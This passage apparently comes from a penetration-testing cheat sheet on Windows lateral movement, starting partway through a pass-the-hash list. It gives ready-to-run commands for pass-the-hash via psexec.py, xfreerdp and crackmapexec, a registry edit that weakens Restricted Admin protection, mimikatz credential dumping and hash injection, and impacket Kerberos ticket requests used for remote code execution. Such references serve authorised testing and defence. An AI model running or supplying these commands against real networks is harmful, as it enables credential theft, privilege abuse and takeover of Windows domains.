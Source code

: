 ```bash

# Method 3
$ python psexec.py [username]@[target] -hashes :[NT/NTLM]

# Method 4 - RDP PTH
$ xfreerdp /u:Administrator /pth:[NTLM hash] /d:[domain] /v:[target]
^If error occurs "Account Restrictions are preventing this user from signing in.” enable Restricted Admin Mode:
$ crackmapexec smb [target] -u [username] -H [hash] -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'

# Method 5 - see guide https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/
$ crackmapexec smb [target] -u [username] -H [hash] -x "whoami" 
```

### Overpass-the-Hash
* Attack path: obtain a user's NTLM hash -> start new cmd/ps process as user -> request Kerberos TGT as user -> code exec on any machine where the user has permissions.
* Requirement: user/service account to have local admin on target machine.
* Useful when Kerberos is the only authentication mechanism allowed in a target (NTLM authN disabled).
* `psexec.exe` requires local admin rights as it accesses admin$ share.

OPTH via. COMPROMISED HOST
```powershell
### WITH MIMIKATZ ON COMPROMISED HOST
mimikatz > sekurlsa::logonpasswords    # obtain NTLM hash
mimikatz > sekurlsa::pth               # create new PS process in context of target user
        /user:[user_name] 
        /domain:[domain_name]
        /ntlm:[hash_value]
        /run:PowerShell.exe

# (new PS window, but on same host)
PS> klist # should show no TGT/TGS
PS> net use \\dc01                     # generate TGT by authN to network share on the DC
PS> klist # now should show TGT/TGS
PS> .\PsExec.exe \\[computer] cmd.exe  # use TGT to perform code exec against
                                       # target which user has permissions on.
                                       # (as Psexec does not accept hashes)
```

OPTH via. KALI
```bash
# Request the TGT with hash
$ python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
$ python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
$ python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
$ export KRB5CCNAME=<TGT_ccache_file>

# execute remote commands with any of the following by using the TGT
$ python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
